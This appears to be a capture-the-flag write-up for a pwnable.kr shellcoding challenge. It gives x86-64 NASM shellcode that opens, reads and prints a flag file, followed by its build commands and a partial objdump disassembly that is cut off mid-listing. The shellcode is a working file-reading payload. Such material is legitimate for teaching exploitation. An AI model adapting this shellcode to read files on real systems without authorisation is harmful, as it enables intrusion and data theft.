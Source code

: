 
#the nasm code : 
```

SECTION .text
	global _start
_start:
	jmp short setup
shellcode:
	pop rbp ; we have rip yeyyyyy
	inc rax
	inc rax 
	mov rdi,rbp
	xor rsi,rsi
	xor rdx,rdx
	syscall
	mov rdi,rax
	xor rax,rax
	mov rsi,rbp
	xor rcx,rcx
	mov cl,lenFlag
incrbp:
	inc rbp
	loop incrbp
	mov dl,255
	syscall
	xor rdi,rdi
	inc rdi
	mov rdx,rax
	xor rax,rax
	inc rax
	syscall
setup:
	call shellcode 
	flag db "./this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong"
	lenFlag equ $-flag
	buf db 256 dup(0)
exit:

```
#compile process
```
idang@idang ~/asmpwn> nano -c shellcode.asm
idang@idang ~/asmpwn> nasm -f elf64 shellcode.asm
idang@idang ~/asmpwn> ld  --omagic shellcode.o
idang@idang ~/asmpwn> objdump -d a.out
```
#the shellcode : 
```
a.out:     file format elf64-x86-64
Disassembly of section .text:

0000000000400080 <_start>:
  400080:	eb 3a                	jmp    4000bc <setup>

0000000000400082 <shellcode>:
  400082:	5d                   	pop    %rbp
  400083:	48 ff c0             	inc    %rax
  400086:	48 ff c0             	inc    %rax
  400089:	48 89 ef             	mov    %rbp,%rdi
  40008c:	48 31 f6             	xor    %rsi,%rsi
  40008f:	48 31 d2             	xor    %rdx,%rdx
  400092:	0f 05                	syscall 
```